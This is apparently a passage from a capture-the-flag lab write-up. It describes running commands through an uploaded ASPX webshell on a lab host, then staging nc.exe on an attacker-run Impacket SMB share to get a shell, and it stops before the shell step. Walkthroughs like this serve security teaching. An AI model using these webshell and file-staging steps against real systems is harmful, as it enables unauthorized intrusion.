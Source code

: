 

### Webshell Execition

Now I can just visit `http://10.10.10.5/cmd.aspx` and I get a form:

![](/img/1550832779390.png)

Running `whoami` gives me output:

![](/img/1550832798627.png)

### Shell

I'll show three ways to get a shell from here, using `nc.exe`,
[Nishang](https://github.com/samratashok/nishang), and `meterpreter`.

#### nc.exe

On a Windows host, my favorite way to move files back and forth is with
`smbserver.py`. I'll make a directory called smb, and copy `nc.exe` into
it:



    root@kali# mkdir smb
    root@kali# locate nc.exe
    /opt/SecLists/Web-Shells/FuzzDB/nc.exe
    /opt/shells/netcat/nc.exe
    /usr/lib/mono/4.5/cert-sync.exe
    /usr/share/seclists/Web-Shells/FuzzDB/nc.exe
    /usr/share/sqlninja/apps/nc.exe
    /usr/share/windows-binaries/nc.exe
    root@kali# cp /usr/share/windows-binaries/nc.exe smb/



Now I'll start the smb server:



    root@kali# smbserver.py share smb
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
